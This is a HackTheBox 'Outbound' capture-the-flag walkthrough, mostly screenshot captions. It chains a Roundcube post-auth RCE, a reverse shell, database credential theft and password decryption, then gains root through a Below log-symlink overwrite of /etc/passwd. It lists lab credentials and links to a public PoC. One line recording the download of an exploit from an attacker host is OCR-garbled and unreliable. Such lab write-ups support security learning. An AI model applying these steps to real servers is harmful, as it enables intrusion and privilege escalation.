> Writeup · part of **[htb-walkthroughs](../README.md)** · [⬇ original PDF](Outbound.pdf)

---

# **<u>OUTBOUND MACHINE - Easy</u>** 

HackTheBox SN8 

Initial creds: **tyler || LhKL1o9Nm3X2** 

Nmap output showed only port 80(http/webapp) and 22(ssh) are open. 



Opening the target on the web browser, we realise it’s running roundcube. Using the initially given credentials, we can proceed to log in. 



Used wappalyzer to realise the Tech Stack used. 



Enumerating the target further, we realise that it is vulnerable to a POST-AUTHENTICATION RCE. 

Target is vulnerable to Roundcube post-auth RCE → CVE-2025-49113 



Got reverse shell a revshell after exploiting the vulnerability. 



Got mysql db credentials: **roundcube || RCDBPass2025** Database → roundcube 



Tables in the roundcube database 



Users from the db. 



The data on the session table are base64 encoded. 



Decoded base64 data 

Here is the encrypted password for user jacob that needs to be decrypted “L7Rv00A8TuwJAr67kITxxcSgnIk25Am/” 



#### Decrypted password 



This credential belongs to user jacob. However, confirming with nxc, we don’t have permission to ssh to the target using this credentials. 



Looking around, I found some mails that belonged to various users but we don’t have the right permissions to view them. 



We have decrypted jacobs password, but now we do not have a stable shell that shall allow us to su to user jacob. Python is not installed in the system so we cannot use python. After a bit of research, I found out that we can upgrade our shell using: “script -qc /bin/bash /dev/null” 



Now we can read Jacob's email. 



Found new set of credentials for user jacob: jacob || gY4Wr3a1evp4 Confirmed the credentials are working. 



#### #INFO THAT CAN HELP ON VERTICAL PRIVESC. 



Log in to the target as user jacob via ssh 



## **USER FLAG:** 



#### PRIVILEGE ESCALATION TO ROOT 



The below binary is vulnerable to **CVE-2025-27591** . Brief Description and link to the PoC <u>https://github.com/Shadrack2023/CVE-2025-27591-PoC_Below</u> 

### ``` 

_CVE-2025-27591 is a privilege escalation vulnerability that affected the Below service before version 0.9.0. The issue arose due to the creation of a world-writable directory at_ 

_/var/log/below. An attacker could exploit this vulnerability by manipulating symlinks within this directory and potentially gain root privileges, making it a significant security concern for local unprivileged users._ 

``` 

Exploit explanation: 

“The vulnerability comes from /var/log/below being world-writable. The script abuses this by creating a **symlink from /var/log/below/error_root.log → /etc/passwd** , then triggers below (running with sudo as root) to write logs. Because root is writing to error_root.log , it actually writes to /etc/passwd .” 

Hosted and uploaded our exploit to the target machine connecting2025-09-10eatbounds=§ wgetto 2 **1** 0,10,16:42/58-— BEtp://10-10.16-81/expLoit-py81:80.MUD! //i0-10.16-81/expl0it-pyconected freetenge:request cent, awaiting response. 200Ok 

## **ROOT FLAG:** 


